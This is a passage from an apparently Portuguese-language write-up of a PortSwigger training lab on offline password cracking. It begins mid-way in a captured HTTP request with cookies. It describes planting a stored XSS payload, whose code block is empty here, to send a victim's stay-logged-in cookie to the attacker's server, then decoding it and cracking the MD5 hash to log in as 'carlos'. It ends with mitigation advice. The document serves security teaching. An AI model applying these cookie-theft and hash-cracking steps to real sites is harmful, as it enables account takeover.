Host: 0a58009b04f2ee2dc1ca1297006400a3.web-security-academy.net
Cookie: session=x3hIC5q187sM8WGL0Jp8jGZEZmvdJjpB; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a58009b04f2ee2dc1ca1297006400a3.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

analisando o cookie `stay-logged-in` percebemos que ele está encodado em base64, então vamos decodificar o cookie utilizando o próprio Burp Suite em "`Botão direito > Convert Selection > Base64 > Base64-decode`":

```text
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Percebemos que o cookie `stay-logged-in` contém o nome de usuário e o hash da senha do usuário "wiener" separados por ":" e para identificar o tipo de hash da senha, vamos utilizar o site [crackstation](https://crackstation.net)



Percebemos que o hash da senha é um hash MD5.

Agora que sabemos onde fica a hash da senha dos usuários e o tipo de hash, podemos utilizar do XSS para roubar o cookie `stay-logged-in` de Carlos.

Para isso vamos utilizar a sessão de comentários que está vulnerável a XSS, vamos inserir o seguinte payload:

```html

```


Esse playload ficará armazenado no banco de dados do servidor e quando o usuário Carlos acessar a página de comentários, o payload será executado e o cookie `stay-logged-in` será enviado para o nosso servidor.

Então vamos acessar a página de log do nosso servidor para ver se o cookie foi enviado:


<div class="page"/>

Percebemos que o cookie foi enviado com sucesso para o nosso servidor, agora vamos decodificar o cookie utilizando o site [base64decode](https://www.base64decode.org/):


agora que temos a hash da senha do usuário Carlos, vamos utilizar o site [crackstation](https://crackstation.net) para descobrir a senha do usuário:


Agora sabemos que a senha de Carlos é "onceuponatime".

Basta logar no servidor utilizando o usuário "carlos" e a senha "onceuponatime" e excluir a conta dele para concluir o laboratório.


---

## **<a id="4">• Mitigação.</a>**

Algumas maneiras de mitigar a quebra de hashes são:

- **Senhas seguras:** É importante incentivar ou exigir que os usuários criem senhas fortes e únicas, que incluam caracteres alfanuméricos e especiais, e que não sejam fáceis de adivinhar.

- **Salting:** Adicione uma string aleatória (conhecida como "sal") ao valor de entrada antes de aplicar a função de hash. Isso torna ainda mais difícil para os atacantes usarem ataques de dicionário ou tabelas de hash pré-computadas para quebrar a hash.

- **Hash seguro:** Use uma função de hash segura, como o SHA-256 ou o bcrypt, que seja resistente a ataques de colisão e a quebra de hash.

- **Iterações:** Aumente o número de iterações da função de hash para tornar a quebra de hash mais difícil.

- **Autenticação de dois fatores (2FA):** Adicione uma camada adicional de segurança à autenticação de usuários, solicitando informações adicionais, como um código enviado por SMS ou uma aprovação por meio de uma aplicação de autenticação.

- **Monitoramento de atividades:** Monitore as atividades de rede e as tentativas de login para detectar e prevenir ataques.

- **Atualizações de segurança:** Mantenha os sistemas de segurança atualizados com as últimas correções de segurança e patches.

- **Armazenamento seguro:** Armazene as hashes em um local seguro, protegido por criptografia, e evite armazenar as senhas em texto claro.

---


## **<a id="5">• Dificuldades.</a>**

*Nenhuma dificuldade relevante.* 

---

## **<a id="6">• Conclusão.</a>**

Em conclusão, a **segurança de hashs** é crucial em muitos aspectos da tecnologia, incluindo a autenticação de usuários, a proteção de senhas e a verificação da integridade de dados. No entanto, a quebra de hash pode ser um risco real para a segurança, especialmente com o aumento da capacidade computacional dos atacantes. É importante seguir as práticas recomendadas de segurança, como o uso de senhas fortes, salting, funções de hash seguras e autenticação de dois fatores, para minimizar esses riscos. Além disso, é importante monitorar constantemente as atividades de rede, manter sistemas de segurança atualizados e armazenar informações sensíveis em um local seguro para garantir a proteção contra vulnerabilidades e a quebra de hashes.

---

<div class="page"/>

## **<a id="7">• Referências.</a>**

- [hashcat - Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

- [techtudo - O que é Hash?](https://www.techtudo.com.br/noticias/2012/07/o-que-e-hash.ghtml)

- [definirtec - Ataque de dicionário](https://definirtec.com/ataque-de-dicionario/)

- [ChatGPT](https://chat.openai.com/chat)


---

## **<a id="8">• Laboratórios.</a>**

  1. [Bruteforce and Password cracking Offline](https://my.ine.com/CyberSecurity/courses/6f986ca5/penetration-testing-basics/lab/0afdf322-1670-413a-abac-9585f38d7475)
  
  2. [Bruteforce and Password cracking Live](https://my.ine.com/CyberSecurity/courses/6f986ca5/penetration-testing-basics/lab/8b9926e5-8e00-4833-b6a4-25f3e1a97e77)
  
  3. [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)


